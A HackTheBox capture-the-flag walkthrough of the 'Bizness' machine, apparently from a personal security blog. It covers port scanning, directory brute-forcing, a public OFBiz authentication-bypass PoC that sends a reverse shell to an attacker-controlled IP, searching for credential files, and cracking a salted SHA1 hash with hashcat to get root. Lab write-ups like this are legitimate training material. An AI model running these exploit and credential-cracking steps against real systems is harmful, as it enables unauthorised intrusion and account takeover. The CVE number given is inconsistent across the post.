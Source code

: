 +++ 
draft = false
date = 2024-02-02T13:07:16+01:00
title = "Bizness HTB Walkthrough"
description = "testestestestest"
slug = ""
authors = ["Dennis Drebitca"]
tags = ["Hash cracking", "Hashcat", "CVE-2023-51457", "Dirsearch"]
categories = []
externalLink = ""
series = []
+++


![image](15.png#center)

[comment]: <> (Insertar imagen de la carátula de la máquina)


The Bizness HTB machine is an easy difficulty level HackTheBox Machine. The main techniques and tools used to crack this machine are:

        - Dirsearch
        - CVE-2023-51467
        - Grep, find and strings
        - Hashcat


## Reconnaissance

We start a broad Nmap scan by executing the following command:

```sh
sudo nmap -sS -T5 -vvv -p- 10.10.11.252 -Pn -oG nmap_inicial
```

Where the arguments mean:

    -sS: SYN port scan
    -T5: Using timing template 5 of NMAP
    -vvv: Triple verbose so NMAP prints a lot of information
    -p-: All ports are scanned
    -Pn: Skips Host Discovery
    -oG: Grep Format

The scan returns the following information:

![image](1.png)

It looks like ports 20 and 80 and 443 are open. Classic open ports for SSH and HTTP/HTTPS. Next, we run a more comprehensive scan on the open ports:

```sh
sudo nmap -sCV -p22,80,443 10.10.11.252 -oN nmap_exhaustivo -v
```

Now the arguments used mean:

    -sCV: Launches all scanning scripts to discover services and versions running on these ports
    -oN: Normal output format
    -v: Single verbose

The results for this second scan are the following:

![image](2.png)

## Directory discovery

Now lets try to enumerate subdirectories via brute force with Dirsearch, a open-source python tool that can be found in [GitHub](https://github.com/maurosoria/dirsearch.git). 

First, we add the website to our /etc/hosts file and then we run the following command:

```sh
dirsearch -u https://bizness.htb/ --exclude-status 403,404
```

![image](5.png)

The directory bruteforce reveals the /control/login page. There is nothing of interest besides the login and Join HTB buttons. 

![image](6.png)

On the down right corner, we can see the release of the OFBiz software.

![image](7.png#center)

Doing some investigation, it turns out that Ofbiz is vulnerable to a authentication bypass and RCE because of [CVE-2023-51467](https://www.cvedetails.com/cve/CVE-2023-51467/ "CVE-2023-51467 security vulnerability details"). 

## Initial access

First we clone a [GitHub PoC](https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC) for CVE-2023-51457 written by the researcher abdoghazy2015. Then, for the PoC to work, we have to download ysoserial-all.jar into the same folder.

```sh
wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar
```

The script doesnt work out of the box. However, its because its written to run with openjdk 11. We have the install that version specifically:

```sh
sudo apt-install openjdk-11-jdk
sudo apt-install openjdk-11-jre
```

And then we have to select java 11 by running

```sh
sudo update-alternatives --config java 
```

Now we are ready to execute the exploit. We have to run set up a netcat listener in another terminal by running:

```sh
nc -lvnp 1234
```

This is where we are going to catch the reverse shell. Now, to run the exploit, execute:

```python
python3 exploit.py https://bizness.htb shell 10.10.14.75:1234
```

![image](8.png)

We get the reverse shell.

![image](3.png)

The user flag can be obteined in the /home/ofbiz directory.

![image](4.png)


## Privilege escalation

We now have to enumerate this machine. A quick and easy way is to use the find and grep tools to search for files containing interesting strings like admin and password. If we run the following command...

```sh
find . -type f -name '*Admin*'
```
...we can search for a file that has the string "Admin" in its name. This is how we discover a interesting file:

![image](9.png)
![image](10.png)

By reading the file /framework/resources/templates/AdminUserLoginData.xml, we get some sort of password... but both Hashcat and JohnTheRipper fail to crack it. It might be a salted password, but we have to keep searching in any case.

There is also a Derby database in the machine. There is a lot of data and files, so we need to search efficiently using strings and grep.

```sh
strings -f * | grep -iE "pass"
```

![image](11.png)

It looks like we got another password, in this case it contains the salt. It is the data between the two dollar signs. In this case, the salt is \$d\$.

```sh
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
```

We have to sanitize the hash first, since it looks encoded. We can use [cyberchef](https://gchq.github.io/CyberChef):

![image](12.png)

Now that we have the hash sanitized, its time to crack it using hashcat.

```sh
echo "b8fd3f41a541a435857a8f3e751cc3a91c174362:d" > hash
```

```sh
hashcat -m 120 -a 0 -d 1 ./hash /usr/share/wordlists/rockyou.txt 
```

We have to use mode 120 for the format of hash that we provided. In this case, it is a SHA1 hash, and the hash format is hash:salt.


![image](13.png)

We got the password!! Now we just have to run su and enter the password to get a root terminal.

![image](14.png)

Lastly, we can grab the root flag and the machine is done!!

![image](15.png#center)

